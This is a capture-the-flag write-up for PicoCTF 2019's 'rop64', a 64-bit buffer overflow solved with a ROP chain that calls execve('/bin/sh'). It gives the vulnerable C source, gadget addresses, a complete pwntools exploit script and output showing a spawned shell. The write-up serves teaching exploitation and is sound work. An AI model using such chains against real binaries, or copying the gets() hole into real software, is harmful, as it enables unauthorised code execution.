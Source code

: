 ```yaml
---
title: ROP 64 bits - execve syscall
description: Exploiting a buffer overflow and using ROP to call execve.
---
```


# ROP 64 bits - execve syscall

## Summary

Exploiting a buffer overflow and using ROP to call `execve`.

## Challenge

### Statement

!!! note ""
    Challenge : `rop64` from PicoCTF 2019.

Time for the classic ROP in 64-bit. Can you exploit this [program](https://2019shell1.picoctf.com/static/8bda0ef23a9ca5c2f395a039006dd5f7/vuln) to get a flag?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("Can you ROP your way out of this?\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

## Answer

As you can see, we can exploit a buffer overlow on the `gets(buf)` function.

The goal here was to call `execve` with the argument `/bin/sh`. To do this we can look up at the [syscalls list](https://syscalls.w3challs.com/?arch=x86_64) for x86_64 architecture, `execve` is the number `59` and takes 3 arguments. In 64 bits architecture, arguments are passed via registers.

```
int execve(const char *filename, char *const argv[], char *const envp[]);

rax = 0x3b      ; 'execve' syscall id, 0x3b = 59
rdi = /bin/sh   ; Pointer to "/bin/sh" string in memory.
rsi = 0         ; No argument
rdx = 0			; No argument

Then, execute syscall.
```

To find the **padding** of the buffer overflow, I use the `cyclic` and `find_cyclic` functions of the pwntools library.

To set `rax` (or another register to a specified value) to `0x3b` we can use two methods.
1. Using the stack :
	1. `push 0x3b`, add `0x3b` on the stack
	2. `pop rax`, pop `0x3b` into `rax`
2. Using the power of ROP :
	1. `xor rax, rax`, set `rax` to 0
	2. `add rax, 3`, add 3 to `rax` (repeat this 19 times, 19*3=57)
	3. `add rax, 2`, add 2 to `rax` (57+2 = 59 = 0x3B).

To set `rsi` and `rdx` to 0, we will use the stack.

To set `rdi` to a pointer of the _/bin/sh_ string in memory, we need to find a writable address where we can put _/bin/sh_.

Inside `gdb`, we can use the `vmmap` command to show the range of addresses that are writable. In our case, we will use the first writable address, `0x00000000006b6000`.

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/.../rop64/vuln
```

We will use the instruction `mov qword ptr [rax], rdx` to write `/bin/sh` into `0x00000000006b6000` with `rax` equals to `0x00000000006b6000` and `rdx` to `/bin/sh`.

To find all the gadgets, I use [ropper](https://github.com/sashs/ropper).

```bash
$ ropper -f vuln --search 'pop rdx; ret;'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdx; ret;

[INFO] File: vuln
0x000000000044bf16: pop rdx; ret;
```

We are now able to write our python solver script.

**Source code (solve.py) :**

```python
#!/usr/bin/env python3
from pwn import process, p64, cyclic, cyclic_find, log

# context
PROGRAM = "./vuln"

def find_padding_size():
    proc = process(PROGRAM)
    pattern = cyclic(32)

    proc.sendlineafter(b"Can you ROP your way out of this?\n", pattern)
    proc.wait()

    core = proc.corefile
    seg_addr = int(f"0x{hex(core.fault_addr)[-8:]}", 16)

    return cyclic_find(seg_addr)


"""
0x0000000000444c50: xor rax, rax; ret;
0x00000000004749c0: add rax, 1; ret;
0x00000000004749b7: add rax, 2; ret;
0x00000000004749d0: add rax, 3; ret;

0x000000000048d341: mov qword ptr [rax], rdx; ret;

0x00000000004156f4: pop rax; ret;
0x0000000000400686: pop rdi; ret;
0x00000000004100d3: pop rsi; ret;
0x000000000044bf16: pop rdx; ret;

0x000000000040123c: syscall;
"""

# padding size
padding_size = find_padding_size()
log.info(f"Padding size : {padding_size}")

# gadgets
xor_rax   = p64(0x0000000000444c50)
add_rax_2 = p64(0x00000000004749b7)
add_rax_3 = p64(0x00000000004749d0)
pop_rax   = p64(0x00000000004156f4)
pop_rdi   = p64(0x0000000000400686)
pop_rsi   = p64(0x00000000004100d3)
pop_rdx   = p64(0x000000000044bf16)
bin_sh    = b"/bin/sh\x00"
syscall   = p64(0x000000000040123c)
writable_memory = p64(0x00000000006b6000)
write_memory_into_rax = p64(0x000000000048d341)

# padding
buf = b"A" * padding_size

# write "/bin/sh" string into memory
buf += pop_rdx
buf += bin_sh
buf += pop_rax
buf += writable_memory
buf += write_memory_into_rax

# set rax to '0x3b' (execve syscall id)
"""
buf += pop_rax
buf += p64(0x3b)
"""
buf += xor_rax
buf += add_rax_3 * 19
buf += add_rax_2 * 1

# set 'rdi' to '/bin/sh' address pointer
buf += pop_rdi
buf += writable_memory

# set 'rsi' to 0 
buf += pop_rsi
buf += p64(0)

# set 'rdx' to 0
buf += pop_rdx
buf += p64(0)

# syscall
buf += syscall

proc = process(PROGRAM)
proc.sendlineafter(b"Can you ROP your way out of this?\n", buf)
proc.interactive()
```

**Execution :**

```bash
$ python3 solve.py
[+] Starting local process './vuln': pid 14552
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 14552)
[+] Parsing corefile...: Done
[*] '/home/xanhacks/Documents/challs/PicoCTF/rop64/core.14552'
    Arch:      amd64-64-little
    RIP:       0x400b6e
    RSP:       0x7ffcdaa49cd8
    Exe:       '/home/xanhacks/Documents/challs/PicoCTF/rop64/vuln' (0x400000)
    Fault:     0x6161616861616167
[*] Padding size : 24
[+] Starting local process './vuln': pid 14566
[*] Switching to interactive mode
$ id
uid=1000(xanhacks) gid=1000(xanhacks) groups=1000(xanhacks),995(audio),998(wheel)
```